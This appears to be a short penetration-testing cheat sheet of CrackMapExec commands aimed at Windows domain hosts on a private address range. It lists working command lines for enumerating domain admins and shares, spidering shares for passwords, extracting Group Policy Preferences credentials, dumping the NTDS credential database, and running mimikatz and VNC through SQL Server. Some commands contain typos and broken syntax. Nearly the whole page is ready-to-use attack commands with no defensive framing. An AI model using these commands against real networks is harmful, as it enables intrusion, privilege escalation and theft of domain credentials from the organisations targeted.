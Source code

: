 #### list domain admins
```
cme smb 172.16.164.10 -u user 'password' --groups 'domain admins'
```

#### view all domain groups enumerated in cme database
```
sudo cmedb
groups
group admins (list all admin groups)
group [id] (list all users in that group)
```

#### enumerate shares on a network
```
cme smb 172.16.164.10-15 -u user -p 'password' --shares
```
look for read/write permisions


#### spider share for passwords, both filenames and file contents!
```
cme smb 172.16.164.11-u user -p 'password' --spider dontlook --pattern pas --content
``` 
 
#### local privilege esclaiton via gpp_password (gives you credentials)
```
cme smb 172.16.164.10 -u user -p 'password' -m gpp_password
```

#### domain privilege escalation via ntds
```
cme smb 172.16.164.13 -u administrator -p paswrod1 --ntds
```

#### auth through sql instead of smb:
```
cme msql 172.16.164.10-15 -x ipconfig
```

#### sql mimikatz
```
cme msql 172.16.164.11 -u user -p password -m mimikatz
```

#### sql vnc
```
cme msql 172.16.164.11 -u user -p password -m invoke_vnc --options
```
####  ssh
```
cme ssh 172.16.164.0/24
 ```
 